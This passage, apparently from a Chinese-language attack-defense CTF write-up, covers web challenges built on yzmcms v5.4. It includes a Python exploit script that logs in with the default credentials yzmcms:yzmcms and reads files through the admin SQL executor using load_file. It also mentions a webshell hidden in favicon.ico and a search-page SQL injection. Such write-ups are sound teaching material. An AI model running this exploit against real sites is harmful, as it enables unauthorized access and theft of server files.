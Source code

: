 ```python
    print("d3ctf{%s}"%flag)
    return "d3ctf{%s}"%flag
```

但实际上这个sql注入动静比较大,修复又容易.只拿到了几个flag就都修好了.

还有几个主办方留的sql注入,与这个类似,师傅们修复的也都比较快,就没有一一写出来.

这几个就是在流量中发现的所有漏洞,修好后没再被拿分.

因为比赛的时候有些手忙脚乱,一边开发自动化脚本,一边审流量,没有静下心仔细看代码.赛后随便翻了下,没有过滤的sql点,以及直接拼接字符串读写文件的点还不少.

还有一个漏洞可有可无,后台默认账号修改密码后session不会失效,第二题一开始写了个脚本拿了所有对的cookie,但后台并没有找到其他漏洞,因此无用.

主办发还特地修改了验证码生成的地方,方便做自动化.

## web2

cms:yzmcms v5.4

后台弱口令:   yzmcms:yzmcms

web2漏洞与web1基本一致.

### 后台任意sql语句执行

后台有个执行sql的地方,有读写文件权限.直接读flag.

赛后看到有些师傅自动化出了点问题,因为需要先访问一次验证码api,绑定验证码与session.web1也是一样的.贴个例子.

```python
def exp(ip):
    base_url = "http://%s/admin/index/login.html"
    data = {'username':'yzmcms','password':'yzmcms','code':'1234','dosubmit':'%E7%99%BB%E3%80%80%E5%BD%95'}
    s = requests.session()
    s.get("http://%s/api/index/code.html?"%ip,timeout=3)
    url = base_url%ip
    p = s.post(url,data=data)
    base_url2 = "http://%s/admin/sql/do_sql.html"
    url = base_url2%ip
    data2 = {'sqlstr':"select load_file('/flag')",'action':'single','single':'执行单条SQL'}
    res = s.post(url,data=data2).text
    res = re.compile('d3ctf{.+?}').findall(res)[0]
    return res
```

### 主办方留的后门

在根目录下的`favicon.ico`内有一句话木马,并且特意设置的错误配置使其可解析.这个后门一开始拿d盾扫出来删了,然后主办方重置了一次靶机,我给忘了这个后门,流量又记录不到访问静态文件的.导致丢了好多轮的分.血亏

### 前台sql注入

搜索出存在sql注入,漏洞位于`application/search/controller/index.class.php:13-37行`:
